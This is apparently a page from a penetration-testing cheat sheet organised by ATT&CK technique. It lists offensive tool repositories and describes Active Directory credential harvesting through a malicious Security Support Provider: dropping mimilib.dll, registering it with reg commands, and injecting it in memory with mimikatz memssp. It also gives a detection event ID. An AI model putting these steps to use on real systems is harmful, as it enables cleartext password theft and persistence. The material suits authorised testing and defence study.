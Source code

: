 


**Protocols & Ports**
[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)

**Tools**
<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/JoelGMSec/Invoke-Transfer","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/Leo4j/Invoke-SMBRemoting","https://api.github.com/repos/calebstewart/pwncat","https://api.github.com/repos/Hackplayers/evil-winrm","https://api.github.com/repos/p0dalirius/smbclient-ng]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='activedirectory'></a>activedirectory

### <a name='custom-ssp'></a>custom-ssp

🔑 KEYPOINTS :

- drop the dhe malicious SSP 'mimilib.dll' in C:\Windows\System32\ to log passwords in clear-text 
- after a reboot all credentials can be found in clear text in C:\Windows\System32\kiwissp.log

▶️ PLAY :
```powershell
# get a list existing LSA Security Packages
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

# add mimilib.dll to the Security Support Provider list (Security Packages)
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"

# can also inject the malicious SSP in memory / won't survive reboots
privilege::debug
misc::memssp
```

🔎️ DETECT :

- Event ID 4657 - Audit creation/change of HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages

### <a name='sid-history'></a>sid-history

🔑 KEYPOINTS :
[T1134.005](https://attack.mitre.org/techniques/T1134/005/)
